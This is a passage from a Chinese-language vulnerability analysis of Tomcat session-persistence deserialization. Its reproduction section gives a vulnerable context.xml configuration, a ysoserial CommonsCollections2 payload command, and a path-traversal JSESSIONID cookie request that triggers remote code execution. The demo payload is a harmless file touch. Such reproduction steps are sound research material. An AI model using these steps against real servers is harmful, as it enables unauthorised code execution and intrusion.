 
它破坏了双亲委托模型的隐式加载，因为当前访问的是bug这个context项目（看后面），所以，一般情况下，`Thread.currentThread().getContextClassLoader()`取到的类加载器将会是应用类加载器，所以能加载得到WEB-INF/lib的依赖。



## 4. 漏洞复现

1. 配置tomcat的conf/context.xml文件：

```html
<Context>

    ...

    <Manager className="org.apache.catalina.session.PersistentManager"
      debug="0"
      saveOnRestart="false"
      maxActiveSession="-1"
      minIdleSwap="-1"
      maxIdleSwap="-1"
      maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="./session" />
    </Manager>
</Context>
```


2. 部署一个存在以下依赖的webapp到tomcat：  
   - 一个存在 `org.apache.commons:commons-collections4:4.0` 的jar 依赖的 web服务，例bug.war

```java
dependencies {
    compile 'org.apache.commons:commons-collections4:4.0'
}
```


3. 使用github上的ysoserial工具
   - `https://github.com/frohoff/ysoserial`
   - 生成commons-collections4依赖的gadget恶意序列化数据：
   - 通过有缺陷的文件上传功能把恶意序列化数据文件上传到任意目录，但后缀必须是“.session”，例如：/tmp/22222.session


```java
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "touch /tmp/tomcat-bug" > /tmp/22222.session
```


4. 最后，发起恶意请求，请求payload：
   - 将会导致服务端远程代码执行。

```
GET /bug/api HTTP/1.1Host: 127.0.0.1:8080Cookie: JSESSIONID=../../../../../../../../../../../../tmp/22222
```

---
